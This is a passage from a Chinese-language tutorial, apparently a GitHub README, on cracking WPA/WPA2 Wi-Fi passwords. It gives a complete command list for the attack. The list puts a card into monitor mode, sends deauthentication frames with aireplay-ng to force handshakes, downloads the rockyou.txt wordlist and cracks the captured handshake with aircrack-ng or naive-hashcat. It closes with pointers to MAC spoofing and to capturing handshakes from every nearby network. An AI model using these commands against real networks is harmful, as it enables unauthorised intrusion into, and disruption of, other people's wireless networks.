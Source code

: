 你也可以选择得通过广播解除认证数据包到所有连接的客户端：

```bash
# 尽管不是所有的客户端都会响应广播解除认证
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 mon0
```

发送了解除认证数据包后，回到你的 `airodump-ng` 进程，运气好的话你现在应该看到右上角：`[WPA握手：9C：5C：8E：C9：AB：C0`。 现在你已经捕获了握手，你应该准备好[破解网络密码](#crack-the-network-password)。

## 命令列表

下面列出了破解 WPA/WPA2 网络所需的所有命令，以最少的解释为依据。

```bash
# 将你的设备设置成监测模式
airmon-ng start wlan0

# 监听附近所有的 beacon 帧来获取目标 BSSID 以及信道
airodump-ng mon0

# 开始监听握手
airodump-ng -c 6 --bssid 9C:5C:8E:C9:AB:C0 -w capture/ mon0

# 选择性的对于连接的设备进行解除验证从而强制握手
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0

########## 利用 aircrack-ng 破解密码... ##########

# 如果需要的话下载 134MB 的 rockyou.txt 字典文件
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# 利用 w/ aircrack-ng 破解
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt capture/-01.cap

########## 或者利用 naive-hashcat 破解密码 ##########

# 将 cap 转换成 hccapx
cap2hccapx.bin capture/-01.cap capture/-01.hccapx

# 利用 naive-hashcat 破解
HASH_FILE=hackme.hccapx POT_FILE=hackme.pot HASH_TYPE=2500 ./naive-hashcat.sh
```

## 附录

非常欢迎对这篇教程进行回复，我已经添加了社区成员的建议和附加资料作为[附录](#appendix.zh.md)。它包括：

- 在 MacOS/OSX 上捕获握手并且破解 WPA 密码
- 利用 `wlandump-ng` 捕获从你周围每个网络捕获握手
- 使用 `crunch` 即时生成 100+GB 的单词列表
- 利用 `macchanger` 伪造你的 MAC 地址
